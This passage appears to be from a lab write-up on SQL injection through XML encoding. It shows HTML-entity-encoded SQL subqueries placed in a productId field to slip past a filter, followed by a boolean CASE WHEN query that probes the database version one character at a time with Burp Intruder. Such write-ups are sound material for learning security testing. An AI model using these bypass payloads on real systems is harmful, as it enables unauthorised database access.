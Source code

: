 We can encode it to HTML with Burp to avoid detection. The whole query “(SELECT 1)” HTML-encoded is:

```
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x31;)
```


Next we see this query works:

```
SELECT CASE WHEN (1=1) THEN 1 ELSE 2 END
```

```
<productId>
(&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x31;&#x3d;&#x31;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;&#x0a;)
</productId>
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/4.png)

Next I will retrieve the version:

```
SELECT CASE WHEN (substring((SELECT version()),1,1)='a') THEN 1 ELSE 2 END
```

I sent it to Intruder and added delay between requests:



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/5.png)

